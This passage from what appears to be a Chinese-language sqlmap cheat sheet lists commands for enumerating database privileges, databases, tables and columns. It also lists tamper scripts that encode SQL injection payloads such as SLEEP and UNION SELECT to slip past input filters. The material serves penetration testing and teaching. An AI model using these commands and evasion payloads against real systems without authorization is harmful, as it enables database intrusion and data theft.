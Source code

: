  `python sqlmap.py -u "url" --privileges`

 `python sqlmap.py -u "url" --privileges -U postgres`

#### 可以利用的数据库

 `python sqlmap.py -u "url" --dbs`

#### 列数据库表

 `python sqlmap.py -u "url" --tables -D "db_name"`

#### 查看列名

 `python sqlmap.py -u "url" --columns -T "table_name1,name2" -D "db name"`

#### **常用tamper脚本**

**apostrophemask.py**

适用数据库：ALL

作用：将引号替换为utf-8，用于过滤单引号

使用脚本前： `tamper("1 AND '1'='1")`

使用脚本后： `1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

**base64encode.py**

适用数据库：ALL

作用：替换为base64编码

使用脚本前： `tamper("1' AND SLEEP(5)#")`

使用脚本后： `MScgQU5EIFNMRUVQKDUpIw==`

**multiplespaces.py**

适用数据库：ALL

作用：围绕sql关键字添加多个空格

使用脚本前： `tamper('1 UNION SELECT foobar')`

使用脚本后： `1 UNION SELECT foobar`

**space2plus.py**

适用数据库：ALL

作用：用加号替换空格

使用脚本前： `tamper('SELECT id FROM users')`

使用脚本后： `SELECT+id+FROM+users`

**nonrecursivereplacement.py**

适用数据库：ALL

作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
